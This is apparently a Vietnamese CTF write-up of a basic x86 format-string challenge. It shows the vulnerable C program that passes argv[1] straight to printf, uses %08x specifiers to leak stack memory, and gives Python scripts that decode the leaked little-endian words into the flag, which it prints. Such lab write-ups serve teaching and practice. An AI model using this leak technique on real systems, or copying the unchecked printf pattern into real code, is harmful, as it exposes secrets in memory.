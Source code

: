 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
cover: ../../../.gitbook/assets/image (1) (3).png
coverY: 0
---
```


# 🎰 ELF x86 - Format string bug basic 1

chall:

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Work flow:

* Đầu tiên ta xác định được buffer size 32
* Flag được đọc từ file .passwd được chuyển thành string và ghi vào stack
* Hàm trigger đáng ngờ ở đây chính là printf với argv\[1]
* Thật vậy, khi đọc tài liệu về hàm printf ta thấy điều thú vị sau:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Như vậy tham số đầu tiên luôn là kiểu dữ liệu như %d, %s tương ứng với giá trị theo sau đó
* Nhưng ở đây lại truyền vào hàm printf với các giá trị không kiểm duyệt, dẫn đến hiện trạng nếu ta nhập các kiểu dữ liệu hex %x sẽ khiến hàm trả về các giá trị trong stack (bao gồm địa chỉ các function và flag)

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

*   Để dễ quan sát hơn ta dùng %0x.

    * 0 là padding khi không đủ số lượng
    * 8 là số lượng giá trị hiển thị
    * x là hiển thị giá trị hex
    * Kí tự . để phân cách mỗi 8 kí tự cho dễ quan sát



    <figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
* Như vậy ý tưởng ở đây, ta chỉ việc leak hết các dữ liệu có thể đọc trong stack và tìm cụm có nghĩa

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))

for x in list_hex:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")
```

<figure><img src="../../../.gitbook/assets/image (5) (5).png" alt=""><figcaption></figcaption></figure>

* Tuy nhiên do đang ở dạng little-endian, ta có thể viết đoạn script cơ bản sau để chuyển lại big-endian

```python
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))
s = []

for y in list_hex:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    s.append(little_endian)
#print(s)
for x in s:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")

```

<figure><img src="../../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

> flag: **Dpa9d6)(Epamd**



